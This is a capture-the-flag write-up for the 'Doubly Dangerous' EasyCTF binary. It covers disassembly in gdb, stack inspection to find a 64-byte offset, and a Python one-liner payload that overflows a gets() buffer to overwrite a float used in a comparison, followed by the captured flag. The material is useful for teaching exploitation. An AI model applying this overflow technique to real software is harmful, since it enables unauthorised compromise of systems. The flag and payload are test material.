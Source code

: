 # Doubly Dangerous
picoctf 
-Disclaimer("This writeup is from VoidMercy's https://github.com/VoidMercy/EasyCTF-Writeups-2017/tree/master/binexploit/Doubly%20Dangerous")

"There seems to be an issue with this binary. Can you exploit it?"

< filelink : https://github.com/EasyCTF/easyctf-2017-problems/blob/master/doubly-dangerous/doubly_dangerous?raw=true >

the task gave me an .ELF file, first thing to do is to run it :

```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
tekdung 
nope!
root@localhost:~/Downloads/New folder# 
```

this time i tried to give a  l a r g e  input :


```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope!
Segmentation fault
```

it was a buffer overflow, and the porgram referencing to a restricted memory, but we need more clue, so lets start dissas the program using gdb 

```
Dump of assembler code for function main:
   0x08048607 <+0>:	lea    ecx,[esp+0x4]
   0x0804860b <+4>:	and    esp,0xfffffff0
   0x0804860e <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048611 <+10>:	push   ebp
   0x08048612 <+11>:	mov    ebp,esp
   0x08048614 <+13>:	push   ecx
   0x08048615 <+14>:	sub    esp,0x54
   0x08048618 <+17>:	fldz   
   0x0804861a <+19>:	fstp   DWORD PTR [ebp-0xc]
   0x0804861d <+22>:	sub    esp,0xc
   0x08048620 <+25>:	push   0x8048735
   0x08048625 <+30>:	call   0x8048410 <puts@plt>
   0x0804862a <+35>:	add    esp,0x10
   0x0804862d <+38>:	sub    esp,0xc
   0x08048630 <+41>:	lea    eax,[ebp-0x4c]
   0x08048633 <+44>:	push   eax
   0x08048634 <+45>:	call   0x80483e0 <gets@plt>
=> 0x08048639 <+50>:	add    esp,0x10
   0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
   0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
   0x08048645 <+62>:	fucomip st,st(1)
   0x08048647 <+64>:	jp     0x804866c <main+101>
   0x08048649 <+66>:	fld    DWORD PTR ds:0x804876c
```
i found something interesting, the program is using fucomip wich means a compare floating points instruction.
since the program is comparing, i assume that the comparisons must return true.

```
0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:	fucomip st,st(1)
```

the program is referencing the variable ebp-0xc and then comparing with the value in address 0x804876c, we need to find a value until the value of ebp-0xc overflow :

```
python -c "print 'a'*60" > weq
---------------------------------------------------------------
(gdb) r < weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000000	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
meh

```
python -c "print 'a'*65" > weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000061	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
ayyy

```
it is found that 65 character overflow the ebp-0xc
```
the digit '61' means 65 is one number higher, to get a blank spot ebp-0xc we need 64 character so the first value is 0x00000000.
Now to concate what value in the compare destination so fucomip will return true.

```
(gdb) x/10wx 0x804876c
0x804876c:	0x41348000	0x3b031b01	0x00000030	0x00000005
0x804877c:	0xfffffc60	0x0000004c	0xfffffe0b	0x00000070
0x804878c:	0xfffffe97	0x00000090
```

the value we need is 0x41348000. Thus, we can create our exploit

```
root@localhost:~/Downloads/New folder# python -c "print 'a'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
Failed to open flag file! //-------> easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

# Flag

```
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

